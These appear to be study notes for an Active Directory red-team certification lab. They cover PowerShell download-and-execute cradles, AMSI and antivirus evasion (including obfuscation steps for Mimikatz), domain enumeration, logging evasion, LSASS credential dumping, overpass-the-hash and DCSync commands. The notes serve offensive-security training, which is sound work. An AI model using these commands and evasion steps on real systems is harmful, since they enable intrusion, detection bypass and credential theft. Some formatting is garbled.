CRTP Notes 🦞
</> PowerShell
🧠 Main Concepts
- How to Load a PowerShell
script
.C:\AD\Tools\PowerView.ps1 - How to Load a PowerShell
module(or ascript)
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1 - How to list the commands of a PowerShell
module
Get-Command -Module <modulename> - How to execute PowerShell
scriptin memory
🛡️ Windows introduced AMSI in PowerShell 5 to protect against this type of attackiex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')- it can be logged by
Transcription and Script Block logging
- it can be logged by
🔐 Execution Policy
It is NOT a security measure, it is present to prevent user from accidently executing scripts.- Several ways to bypass
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
🎭 Bypassing PowerShell Security
You can use Invisi-Shell (https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell.
Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
⚔️ Using Invisi-Shell
- With admin privileges:
RunWithPathAsAdmin.bat - With non-admin privileges:
RunWithRegistryNonAdmin.bat
Type exit from the new PowerShell session to complete the clean-up.
🎭 Bypassing Windows AV Security
You can use the AMSITriggerhttps://github.com/RythmStick/AMSITrigger or DefenderCheck https://github.com/t3hbb/DefenderCheck to identify code and strings from a binary or script thatWindows Defender may flag.
- Example:
- Simply provide path to the script file to scan it:
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
Invoke-ObfuscationDefenderCheck.exe PowerUp.ps1https://github.com/danielbohannon/Invoke-Obfuscationis a PowerShell Script Obfuscator - Simply provide path to the script file to scan it:
- Steps to avoid signature based detection are pretty simple:
1) Scan using AMSITrigger
2) Modify the detected code snippet
3) Rescan using AMSITrigger
4) Repeat the steps 2 & 3 till we get a result asAMSI_RESULT_NOT_DETECTEDorBlank - Example:
New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
if "Net.Sockets" detected you can reverse it to bypass
$String = "stekcoS.teN" $class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join '' if ($Reverse) { $client = New-Object System.$class.TCPClient($IPAddress,$Port) }
✂️ Tools Script Modification
Using only the minimal portion of a script is also useful. Like whin usingPowerUp.ps1 or Invoke-Mimikatz remove all unnecessarily functionalaty
💪 PowerUp.ps1
- For this we can scan the script with DefenderCheck and then use the
ByteToLineNumber.ps1script with the output byte to tell you what line is detected
🐈 Invoke-Mimikatz
There are multiple detections. We need to make the following changes:- Remove default comments.
- Rename the script, function names and variables.
- Modify the variable names of the Win32 API calls that are detected.
- Obfuscate PEBytes content → PowerKatz dll using packers.
- Implement a reverse function for PEBytes to avoid any static signatures.
- Add a sandbox check to waste dynamic analysis resources.
- Remove Reflective PE warnings for a clean output.
- Use obfuscated commands for Invoke-MimiEx execution.
- Analysis using DefenderCheck.
🧰 .NET Tools
📌 Overview
.NET tools, refer to binaries or utilities written in C# using the .NET framework/runtime. written in .NET languages like C#, VB.NET, or F#, and compiled with the .NET compiler.🧭 Examples
| Tool / Binary | Description |
|---|---|
| SharpHound | Part of BloodHound, written in C#. Used for AD enumeration. |
| Seatbelt | Post-exploitation system information tool in C#. |
| SharpDump | LSASS memory dumper (like Mimikatz) in .NET. |
| SharpUp | Privilege escalation checks, written in C#. |
| Rubeus | Kerberos abuse tool, written in .NET. |
| Certify | Abuses AD CS for escalation, also .NET-based. |
🛠 AV bypass
🌀 Source Code Obfuscation
1) Codecepticonhttps://github.com/Accenture/Codecepticon can obfuscate the source code to bypass any signature-related detection.
Codecepticon needs to be compiled in Visual Studio and it’s command line
generator can help generate an obfuscation command quickly.
Example:+ You can also use the following command to obfuscate the source code with Codecepticon:
C:\AD\Tools\Codecepticon.exe --action obfuscate --module csharp --verbose --path "C:\AD\Tools\Rubeus-master\Rubeus.sln" --map-file " C:\AD\Tools\Rubeus-master\Mapping.html" --profile rubeus --renamencefpavs --rename-method markov --markov-min-length 3 --markov-max-length 10 -markov-min-words 3 --markov-max-words 5 --string-rewrite --string-rewritemethod xor
2) ConfuserEx
https://mkaring.github.io/ConfuserEx/ is a great tool to obfuscate the compiled binary+ ConfuserEx is a GUI beasd .NET obfuscater can be used for (.exe and .dll)
🎯 Assume Breach Methodology
📌 Overview
It is more likely that an organization has already been compromised, but just hasn't discovered it yet.🔪 Attack Methodology

🔍 Domain Enumeration
🛠️ Domain Enumeration Tools
| Tool | Language | Description / Notes | Link |
|---|---|---|---|
| ActiveDirectory Module | PowerShell | Microsoft-signed module, works even in PowerShell CLM. | Docs GitHub |
| BloodHound | C# / PowerShell | Collects and visualizes AD data for privilege escalation paths. | GitHub |
| PowerView | PowerShell | AD recon and enumeration tool. Part of PowerSploit. | GitHub |
| SharpView | C# | AD enumeration tool, doesn’t support pipeline filtering. | GitHub |
🔪 Domain Enumeration Commands
📡 PowerView & ActiveDirectory Module
- Get current domain
Get-Domain (PowerView) Get-ADDomain (ActiveDirectory Module) - Get object of another domain
Get-Domain -Domain moneycorp.local Get-ADDomain -Identity moneycorp.local - Get domain SID for the current domain
Get-DomainSID (Get-ADDomain).DomainSID - Get domain policy for the current domain
Get-DomainPolicyData (Get-DomainPolicyData).systemaccess - Get domain policy for another domain
(Get-DomainPolicyData -domain moneycorp.local).systemaccess - Get domain controllers for the current domain
Get-DomainController Get-ADDomainController - Get domain controllers for another domain
Get-DomainController -Domain moneycorp.local Get-ADDomainController -DomainName moneycorp.local -Discover - Get a list of users in the current domain
Get-DomainUser Get-DomainUser -Identity student1 Get-ADUser -Filter * -Properties * Get-ADUser -Identity student1 -Properties * - Get list of all properties for users in the current domain
- Get-DomainUser -Identity student1 -Properties * - Get-DomainUser -Properties samaccountname,logonCount - Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name - Get-ADUser -Filter * -Properties * | select name,logoncount,@ {expression={[datetime]::fromFileTime($_.pwdlastset)}} - Search for a particular string in a user's attributes:
Get-DomainUser -LDAPFilter "Description=*built*" | Select name, Description Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description - Get a list of computers in the current domain
Get-DomainComputer | select Name Get-DomainComputer -OperatingSystem "*Server 2022*" Get-DomainComputer -Ping Get-ADComputer -Filter * | select Name Get-ADComputer -Filter * -Properties * Get-ADComputer -Filter 'OperatingSystem -like "*Server 2022*"' -Properties OperatingSystem | select Name,OperatingSystem Get-ADComputer -Filter * -Properties DNSHostName | % {Test-Connection -Count 1 -ComputerName $_.DNSHostName} - Get all the groups in the current domain
Get-DomainGroup | select Name Get-DomainGroup -Domain <targetdomain> Get-ADGroup -Filter * | select Name Get-ADGroup -Filter * -Properties * - Get all groups containing the word "admin" in group name
Get-DomainGroup *admin* Get-ADGroup -Filter 'Name -like "*admin*"' | select Name - Get all the members of the Domain Admins group
Get-DomainGroupMember -Identity "Domain Admins" -Recurse Get-ADGroupMember -Identity "Domain Admins" -Recursive - Get the group membership for a user: ```powershell Get-DomainGroup -UserName "student1" Get-ADPrincipalGroupMembership -Identity student1 - List all the local groups on a machine (needs administrator privs on non-dc machines) :
Get-NetLocalGroup -ComputerName dcorp-dc - Get members of the local group "Administrators" on a machine (needs administrator privs on non-dc machines) :
Get-NetLocalGroupMember -ComputerName dcorp-dc -GroupName Administrators - Get actively logged users on a computer (needs local admin rights on the target)
Get-NetLoggedon -ComputerName dcorp-adminsrv - Get locally logged users on a computer (needs remote registry on the target - started by-default on server OS)
Get-LoggedonLocal -ComputerName dcorp-adminsrv - Get the last logged user on a computer (needs administrative rights and remote registry on the target)
Get-LastLoggedOn -ComputerName dcorp-adminsrv
📁 Shares Enumeration
- Find shares on hosts in current domain.
Invoke-ShareFinder -Verbose - Find sensitive files on computers in the domain
Invoke-FileFinder -Verbose - Get all fileservers of the domain
Get-NetFileServer📂 Another way of Shares Enumeration
You can use PowerHuntShares tool for enumerating shares GitHub It can discover shares, sensitive files, ACLs for shares, networks,
computers, identities etc. and generates a nice HTML report. Example:Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools -HostList C:\AD\Tools\servers.txt
🐶 BloodHound
Provides GUI for AD entities and relationships for the data collected by its ingestors.- There are two free versions of BloodHound
- BloodHound Legacy - GitHub
- Supply data to BloodHound:
ℹ️ The gathered data can be uploaded to the BloodHound Legacy applicationC:\AD\Tools\Loader.exe -Path C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors\S harpHound.exe -args --collectionmethods All
- Supply data to BloodHound:
- BloodHound CE (Community Edition) - GitHub
- Supply data to BloodHound:
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Sharphound\SharpHound.exe args --collectionmethods All
ℹ️ The gathered data can be uploaded to the BloodHound CE.
- Supply data to BloodHound:
🥷 Stealthy BloodHound
To make BloodHound collection stealthy, remove noisy collection
methods like RDP, DCOM, PSRemote and LocalAdmin. - BloodHound Legacy - GitHub
- Use the -ExcludeDCsto avoid detection by MDI:
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SharpHound\SharpHound. exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps, SPNTargets,CertServices --excludedcs
ℹ️ Remember to remove the 'CertServices' collection method when using BloodHound legacy collector.🧙♂️ SOAPHound
Use SOAPHound for even more stealth.
It talks to Active Driectory Web Services (ADWS - Port 9389) in place of sending LDAP queries - just like the AD Module. – Almost no network-based detection (like MDI).–
It retrieves information about all objects(objectGuid=*) and then process them. ⚠️ It means limited LDAP queries - less chance of endpoint detection. - Build a cache that includes basic info about domain objects.
SOAPHound.exe --buildcache -c C:\AD\Tools\cache.txt - Collect BloodHound compatible data
SOAPHound.exe -c C:\AD\Tools\cache.txt --bhdump -o C:\AD\Tools\bloodhound-output --nolaps
📃 ACLs Enumeration
- Access Control Model (ACM)
- Enables control on the ability of a process to access objects and other resources in active directory based on:
1) Access Tokens (security context of a process - identity and privs of user)
2) Security Descriptors (SID of the owner, Discretionary ACL (DACL) and System ACL (SACL))
- Enables control on the ability of a process to access objects and other resources in active directory based on:
- Access Control List (ACL)
+ It is a list of Access Control Entries (ACE) - ACE corresponds to individual permission or audits access. Who has permission and what can be done on an object?
1) DACL - Defines the permissions trustees (a user or group) have on an object.
2) SACL - Logs success and failure audit messages when an object is accessed.
🔍 ACLs Enumeration Commands
- Get the ACLs associated with the specified object
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs - Get the ACLs associated with the specified prefix to be used for search
Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins,CN=Users, DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose - We can also enumerate ACLs using ActiveDirectory module but without resolving GUIDs
(Get-Acl 'AD:\CN=Administrator,CN=Users,DC=dollarcorp, DC=moneycorp,DC=local').Access - Search for interesting ACEs
Find-InterestingDomainAcl -ResolveGUIDs - Get the ACLs associated with the specified path
Get-PathAcl -Path "\\dcorp-dc.dollarcorp.moneycorp.local\sysvol"
📂 Group Policy & OU
#### 👪 GPOGroup Policy provides the ability to manage configuration and changes easily and centrally in AD.
- A policy setting may only affect a computer or a user.
- For Computers - Security settings, startup and shutdown scripts, assigned applications and more.
- For Users - Security settings, logon and logoff scripts, assigned applications and more.
📁 OU
Organizational Units (OUs) is the lowest-level AD container to which GPO can be applied. ℹ️ Attacks at the OU level due to misconfigured or overly permissive GPOs is most common in enterprise environments. ℹ️ Overly permissive GPOs can be abused for various attacks like privesc, backdoors, persistence etc.🔍 GPO & OU Enumeration Commands
- Get list of GPO in current domain.
Get-DomainGPO Get-DomainGPO -ComputerIdentity dcorp-student1 - Get GPO(s) which use Restricted Groups or groups.xml for interesting users
Get-DomainGPOLocalGroup - Get users which are in a local group of a machine using GPO
Get-DomainGPOComputerLocalGroupMapping -ComputerIdentity dcorp-student1 - Get machines where the given user is member of a specific group
Get-DomainGPOUserLocalGroupMapping -Identity student1 -Verbose - Get OUs in a domain
Get-DomainOU Get-ADOrganizationalUnit -Filter * -Properties * - Get GPO applied on an OU. Read GPOname from gplink attribute from Get-NetOU
Get-DomainGPO -Identity "{0D1CC23D-1F20-4EEE-AF64-D99597AE2A6E}"
🌳 Trusts & Forest
In an AD environment, trust is a relationship between two domains or forests which allows users of one domain or forest to access resources in the other domain or forest.- Trust can be:
+ Automatic (parent-child, same forest etc.)
+ Established (forest, external). ℹ️ Trusted Domain Objects (TDOs) represent the trust relationships in a domain.
#### 🧭 Trust Direction
1) One-way trust - Unidirectional. Users in the trusted domain can access resources in the trusting domain but the reverse is not true.

3) Two-way trust - Bi-directional. Users of both domains can access resources in the other domain.

- 🚇 Transitivity Can be extended to establish trust relationships with other domains. ℹ️ All the default intra-forest trust relationships (Tree-root, Parent-Child) between domains within a same forest are transitive two-way trusts.
- 🚱 Nontransitive Cannot be extended to other domains in the forest. Can be two-way or one-way. ℹ️ This is the default trust (called external trust) between two domains in different forests when forests do not have a trust relationship.
### 🔗 Trust Types 1) 👪 Parent-child trust
+ It is created automatically between the new domain and the domain that precedes it in the namespace hierarchy, whenever a new domain is added in a tree. For example, dollarcorp.moneycorp.local is a child of moneycorp.local
+ This trust is always two-way transitive. 2) Tree-root trust
+ It is created automatically between whenever a new domain tree is added to a forest root.
+ This trust is always two-way transitive.

Between **two domains** in **different forests** when forests do not have a trust relationship.
ℹ️ Can be **one-way** or **two-way** and is **nontransitive**.

Between forest **root domain**. And cannot be extended to a third forest (**no implicit trust**).
ℹ️ Can be **one-way** or **two-way transitive**.

### 🔍 Domain Trust & Forest mapping
- Get a list of all domain trusts for the current domain
Get-DomainTrust Get-DomainTrust -Domain us.dollarcorp.moneycorp.local Get-ADTrust Get-ADTrust -Identity us.dollarcorp.moneycorp.local - Get details about the current forest
Get-Forest Get-Forest -Forest eurocorp.local Get-ADForest Get-ADForest -Identity eurocorp.local - Get all domains in the current forest
Get-ForestDomain Get-ForestDomain -Forest eurocorp.local (Get-ADForest).Domains - Get all global catalogs for the current forest
Get-ForestGlobalCatalog Get-ForestGlobalCatalog -Forest eurocorp.local Get-ADForest | select -ExpandProperty GlobalCatalogs - Map trusts of a forest (no Forest trusts in the lab)
Get-ForestTrust Get-ForestTrust -Forest eurocorp.local Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'
🏹 User Hunting
1) Find all machines on the current domain where the current user has local admin accessFind-LocalAdminAccess -Verbose
+ This can also be done with the help of remote administration tools like WMI and PowerShell remoting. Pretty useful in cases ports (RPC and SMB) used by
Find-LocalAdminAccess are blocked. Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1
What dose `Find-LocalAdminAccess` command do:

ℹ️ This function queries the DC of the current or provided domain for a list of computers `Get-NetComputer` and then use multi-threaded `Invoke-CheckLocalAdminAccess` on each machine.
Find-DomainUserLocation -Verbose
Find-DomainUserLocation -UserGroupIdentity "RDPUsers"
+ Note that for **Server 2019** and onwards, <span style="color:red;">**local administrator**</span> privileges are required to list sessions.
What dose `Find-DomainUserLocation` command do:

ℹ️ This function queries the DC of the current or provided domain for members of the given group (Domain Admins by default) using `Get-DomainGroupMember`, gets a list of computers `Get-DomainComputer` and list sessions and logged on users `Get-NetSession/Get-NetLoggedon` from each machine.
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
Invoke-SessionHunter -FailSafe
ℹ️ Above command doesn’t need admin access on remote machines. Uses Remote Registry and queries HKEY_USERS hive.
+ An opsec friendly command would be (avoid connecting to all the target machines by specifying targets)
<pre><code>Invoke-SessionHunter -NoPortScan -Targets C:\AD\Tools\servers.txt
</code></pre>
🔝 Privilege Escalation
📌 Overview
In an AD environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:- Hunting for Local Admin access on other machines
- Hunting for high privilege domain accounts (like a Domain Administrator)
🖥️ Local Privilege Escalation
There are various ways of locally escalating privileges on Windows box:1) Missing patches
2) Automated deployment and AutoLogon passwords in clear text
3) AlwaysInstallElevated (Any user can run MSI as SYSTEM)
4) Misconfigured Services
5) DLL Hijacking and more
6) Kerberos and NTLM Relaying
🛠️ Local Privilege Escalation Commands
Services Issues using PowerUp- Get services with unquoted paths and a space in their name.
Get-ServiceUnquoted -Verbose
- Get services where the current user can write to its binary path or change arguments to the binary
Get-ModifiableServiceFile -Verbose
- Get the services whose configuration current user can modify.
Get-ModifiableService -Verbose
Run all checks from:
- PowerUp
Invoke-AllChecks
- Privesc:
Invoke-PrivEscCheck
- PEASS-ng:
winPEASx64.exe
🧨 Feature Abuse
Features abuse are awesome as there are seldom patches for them and they are not the focus of security teams! One of the favorite features abuse is targeting enterprise applications which are not built keeping security in mind. ℹ️ On Windows, many enterprise applications need either Administrative privileges or SYSTEM privileges making them a great avenue for privilege escalation.⚙️ Jenkins
Jenkins is a widely used Continuous Integration tool. Apart from numerous plugins, there are two ways of executing commands on a Jenkins Master. 1) If you have Admin access (default installation before 2.x), go to http://+ In the script console, Groovy scripts could be executed.
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
2) If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
powershell -c <command>
🔁 Relaying Attack
In a relaying attack, the target credentials are not captured. Instead, they are forwarded to a local or remote service or an endpoint for authentication. Two types based on authentication:1) NTLM relaying
2) Kerberos relaying ℹ️ Common targets: LDAP and Active Directory Certificate Services (AD CS).
🔄 Comparison Table
| Attack Type | What It Uses | Needs User Password? | Key Difference |
|---|---|---|---|
| Pass-the-Hash | NTLM hash (password hash) | ❌ No | Reuses a captured NTLM hash to authenticate |
| Pass-the-Ticket | Kerberos TGT or service ticket | ❌ No | Reuses a captured Kerberos ticket (like a token) |
| Relaying Attack | Live authentication request | ❌ No | Forwards a real-time login to another system |
🧠 Think of it like:
- Pass-the-Hash = “I stole your badge and used it.”
- Pass-the-Ticket = “I copied your digital keycard and used it.”
- Relaying = “I grabbed your keycard while you were using it and used it at the same time somewhere else.”
🗂️ GPO Abuse
A GPO with overly permissive ACL can be abused for multiple attacks.⚠️ GPOddity
GPOddity combines NTLM relaying and modification of Group Policy Container. By relaying credentials of a user who has WriteDACL on GPO, we can modify the path (gPCFileSysPath) of the group policy template (default is SYSVOL). ℹ️ This enables loading of a malicious template from a location that we control.
🕵️ Lateral Movement
🔌 PowerShell Remoting
Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast! ℹ️ PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.
1) One-to-One
PSSession
- Interactive
- Runs in a new process (wsmprovhost)
- Is Stateful
Useful cmdlets
<pre><code>New-PSSession
Enter-PSSession
</code></pre>
Also known as Fan-out remoting
- Non-interactive.
- Executes commands parallely.
Useful cmdlets
<pre><code>Invoke-Command
</code></pre>
#### 💉 PowerShell Remoting Commands
- Use below to execute commands or scriptblocks:
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>) - Use below to execute scripts from files
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>) - Use below to execute locally loaded function on the remote machines:
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) - In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList - Use below to execute "Stateful" commands using
Invoke-Command:
$Sess = New-PSSession -Computername Server1 Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process} Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
#### 🙈 PowerShell Remoting Defence Evasion ℹ️ PowerShell remoting supports the system-wide transcripts and deep script block logging. We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
🪪 Credential Extraction
Local Security Authority (LSA) is responsible for authentication on a Windows machine. Local Security Authority Subsystem Service (LSASS) is its service. ℹ️ LSASS stores credentials in multiple forms - NT hash, AES, Kerberos tickets and so on. Credentials are stored by LSASS when a user:- Logs on to a local session or RDP
- Uses
RunAs- Run a Windows service
- Runs a scheduled task or batch job
- Uses a Remote Administration tool ℹ️ LSASS is the most monitored process on a Windows machine. Some of the credentials that can be extracted without touching LSASS
- SAM hive (Registry) - Local credentials
- LSA Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc.
- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc. #### 🐈 Mimikatz Commands mimikatz can be used to extract credentials, tickets, replay credentials, play with AD security and many more interesting attacks! ℹ️ There are multiple tools that implement mimikatz full or partial mimikatz features.
- Dump credentials on a using Mimikatz.
mimikatz.exe -Command '"sekurlsa::ekeys"' - Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" - From a Linux attacking machine using
impacket. ℹ️Impacketis a Python library with tools for remote Windows exploitation over SMB/RPC/WinRM/etc.
🛂 OverPass-The-Hash
- Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)
ℹ️ The above commands starts a process with a logon type 9 (same asSafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"runas /netonly). - Over Pass the hash (OPTH) generate tokens from hashes or keys (doesn't need elevation)
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt - Below command needs elevation
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
🧬 DCSync
To extract credentials from the DC without code execution on it, we can use DCSync.- To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for dcorp domain:
ℹ️ By default, Domain Admins, Enterprise Admins or Domain Controller privileges are required to run DCSync.SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
♾️ Persistence
👑 AD Domain Dominance
Domain Dominance refers to an attacker gaining control of the Active Directory domain, essentially becoming the "master" of the network. This allows them to manage users, computers, and resources, including the ability to modify security settings, deploy malware, and potentially steal sensitive data. ℹ️ There is much more to Active Directory than "just" the Domain Admin.🔐 Kerberos
Kerberos is the basis of authentication in a Windows Active Directory environment. Clients (programs on behalf of a user) need to obtain tickets from Key Distribution Center (KDC) which is a service running on the domain controller. These tickets represent the client's credentials.! ℹ️ Therefore, Kerberos is understandably a very interesting target of abuse!
🎫 Golden Ticket
